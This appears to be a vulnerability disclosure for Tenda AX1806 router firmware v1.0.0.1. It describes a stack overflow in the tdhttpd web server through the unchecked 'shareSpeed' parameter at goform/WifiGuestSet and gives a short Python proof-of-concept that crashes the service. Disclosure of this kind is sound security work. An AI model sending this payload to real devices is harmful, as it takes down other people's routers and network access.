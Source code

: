 ## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the fromSetWifiGusetBasic function, which can be accessed via the URL `goform/WifiGuestSet`.  

- <img src="./image/1.png" alt="1.png" style="zoom:50%;" />

The function takes the POST parameter `shareSpeed`, does not validate its length, and copies it directly to a local variable `acStack1888` on the stack, causing a stack overflow.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"shareSpeed": b'A'*0x800
}
res = requests.post("http://127.0.0.1/goform/WifiGuestSet", data=data)
print(res.content)
```

debug result:

<img src="./image/2.png" alt="2.png" style="zoom:50%;" />

